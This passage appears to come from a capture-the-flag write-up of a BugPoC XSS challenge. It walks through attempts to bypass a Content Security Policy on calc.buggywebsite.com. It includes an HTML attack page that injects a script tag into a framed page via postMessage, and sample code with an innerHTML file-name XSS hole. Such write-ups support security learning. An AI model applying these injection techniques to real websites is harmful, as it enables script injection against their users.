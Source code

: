 ```html
</html>
```

![Chrome console says no.](/bugpoc-xss-challenge-2/step2-csp-fail.png)

# Step 3: Bypassing CSP

When I was solving this challenge, this stumped me for a while. I knew that we could include script files on the calc.buggywebsite.com domain, but none of those had any calls to `alert()`. The script.js file had the `eval()` call, but since we had DOM XSS via the `innerHTML` property, we can’t include `<script src=x></script>` tags because the browser will not load scripts this way after the page had already finished loading.

```html
<!DOCTYPE HTML>

<html>
    <body>
        <iframe name="mriframe" src="http://calc.buggywebsite.com/frame.html" onload="run()" width="500px" height="700px"></iframe>

        <script>
            function run() {
                mriframe.postMessage("<script src=\"http://calc.buggywebsite.com/script.js\"><\/script>", "*");
            }
        </script>
    </body>
</html>
```

![Chrome network tab says no.](/bugpoc-xss-challenge-2/step3-including-script-js.png)

For more information on including script files with `innerHTML`, see [this excellent blog post](https://ghinda.net/article/script-tags/) by Ionuț Colceriu ([@ghindas](https://twitter.com/ghindas)). I cannot use any of the other methods described there because that would require injecting custom JS which is not allowed by the CSP. The CSP would’ve also prevented us from executing the `$scope.calculate()` function even if we could some how include script.js. This is because executing functions require custom JS as well.

So after staring at this blank page for a while, I remembered a stored XSS I got while hunting bugs for a company. They had an Export to Excel feature that would pop open a new window object with the `innerHTML` set to the file name.

```html
<html>
    <body>
        <input name="filename" id="filename" value="blah.xlsx">
        <button onclick="excel()">Export to Excel</button>
    </body>
    <script>
        function excel() {
            var w = window.open();
            w.document.body.innerHTML = "<h1>Please wait while we prepare " + filename.value;
        }
    </script>
</html>
```
